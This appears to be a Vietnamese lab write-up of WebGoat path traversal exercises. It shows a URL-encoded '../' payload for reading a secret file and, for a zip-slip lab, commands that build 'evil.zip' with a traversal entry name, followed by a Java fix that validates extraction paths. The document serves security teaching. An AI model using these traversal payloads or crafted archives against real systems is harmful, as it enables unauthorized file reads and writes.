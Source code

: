 - Dùng payload `%2e%2e%2f%2e%2e%2fpath-traversal-secret` để đọc file này.

![img](/img/WebGoat/(A3)%20Injection%2062a301a7fd4143a4ad699d1a864c382e/image%2020.png)

## Lab 7

### Nguyên nhân lỗi

- Khi giải nén file thì không kiểm tra kỹ tên file, điều này khiến cho kẻ tấn công có thể thay đổi tên file nén → dẫn đến có thể kiểm soát được đường dẫn mà file giải nén được giải nén.

![img](/img/WebGoat/(A3)%20Injection%2062a301a7fd4143a4ad699d1a864c382e/image%2021.png)

### POC

- Tạo một đường dẫn muốn tấn công trên máy attack, ở đây là `/home/webgoat/.webgoat-2023.8/PathTraversal/shr3wd/shr3wd.jpg`

```bash
mkdir /home/webgoat/.webgoat-2023.8/PathTraversal/shr3wd
cd /home/webgoat/.webgoat-2023.8/PathTraversal/shr3wd
file shr3wd.jpg
```

- Sau đó nén file với đường dẫn này

```bash
zip evil.zip ../../../../../../../../home/webgoat/.webgoat-2023.8/PathTraversal/shr3wd/shr3wd.jpg
```

- Upload file `evil.zip`này lên để bypass được

### Cách khắc phục

```java
try {
    Path uploadedZipFile = tmpZipDirectory.resolve(file.getOriginalFilename());
    FileCopyUtils.copy(file.getBytes(), uploadedZipFile.toFile());

    try (ZipFile zip = new ZipFile(uploadedZipFile.toFile())) {
        Enumeration<? extends ZipEntry> entries = zip.entries();
        while (entries.hasMoreElements()) {
            ZipEntry e = entries.nextElement();

            Path resolvedPath = tmpZipDirectory.resolve(e.getName()).normalize();

            if (!resolvedPath.startsWith(tmpZipDirectory)) {
                throw new IOException("Zip entry is outside of the target directory: " + e.getName());
            }

            if (e.isDirectory()) {
                Files.createDirectories(resolvedPath);
            } else {
                Files.createDirectories(resolvedPath.getParent());

                try (InputStream is = zip.getInputStream(e)) {
                    Files.copy(is, resolvedPath, StandardCopyOption.REPLACE_EXISTING);
                }
            }
        }
    }

    return isSolved(currentImage, getProfilePictureAsBase64());
} catch (IOException e) {
    return failed(this).output("An error occurred during file processing.").build();
```